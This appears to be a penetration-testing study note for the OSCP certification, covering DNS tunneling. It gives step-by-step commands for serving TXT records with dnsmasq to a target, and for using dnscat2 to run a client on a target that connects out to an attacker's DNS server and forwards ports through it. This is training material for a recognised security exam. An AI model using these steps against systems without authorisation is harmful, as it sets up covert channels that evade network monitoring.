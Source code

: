 ```yaml
---
{"dg-publish":true,"permalink":"/oscp/10-port-redirection-and-tunneling/4-dns-tunneling/"}
---
```


-------
## Manual DNS TXT Record Infiltration with dnsmasq:
1. Edit 'dnsmasq_txt.conf' on controlled dnsmasq server. Example:
```
# TXT record
txt-record=www.feline.corp,here's something useful!
txt-record=www.feline.corp,here's something else less useful.
```
2. Start dnsmaq:
```
sudo dnsmasq -C dnsmasq_txt.conf -d
```
3. Check that DNS requests are properly routed on target:
```
resolvectl status
```
4. Run a TXT resolution from the target to the server:
```
nslookup -type=txt www.feline.corp
```

--------------
## DNS Tunneling with dnscat2:
1. Start dnscat2-server on your authorative DNS server:
```
dnscat2-server <domain>
```
2. Transfer the dnscat binary to the target from: https://github.com/iagox86/dnscat2
3. Start the clients and connect them:
```
./dnscat --secret=<secret> <domain>
```
4. Enter your initiated window from the server:
```
#List active windows:
windows

#Enter the window:
window -i 1
```
5. Set up remote port forwarding tunnel:
```
listen 0.0.0.0:2345 <outip>:<outport>
```
6. Use tunnel with server port and ip = win!

